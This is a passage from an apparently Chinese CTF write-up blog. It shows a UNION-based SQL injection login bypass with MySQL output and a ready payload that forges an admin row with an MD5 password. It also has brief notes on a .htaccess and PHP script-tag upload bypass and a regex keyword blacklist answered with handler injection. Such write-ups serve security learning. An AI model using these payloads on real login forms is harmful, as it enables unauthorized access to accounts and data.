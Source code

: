 注意他的检测方式不是 username 和 password 一起查的, 而是先查 username, 然后对比执行结果中的 password 和 post 传入的 pw 是否相等

联想到了之前在 CG-CTF 做过的一处 union 注入

具体例子如下

```mysql
mysql> select * from users where username='admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  8 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where username='1';
Empty set (0.00 sec)

mysql> select * from users where username='1' union select 1,'admin','admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```

前面构造不存在的内容让结果返回空, 后面再用 union 构造一组新的数据, 这样的出来的结果就跟正常的 select 结果一模一样了

测试的时候 pw 提交单引号不报错, 猜测可能是 md5 加密, payload 如下

```
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241947059.png)

## [GXYCTF2019]BabyUpload

简单文件上传

考察 .htaccess 和 `<script language="php">xx</script>`

和之前有一题差不多, 记得设置 cookie

## [GYCTF2020]Blacklist

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208241959805.png)

过滤内容如下

```php
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

handler 注入
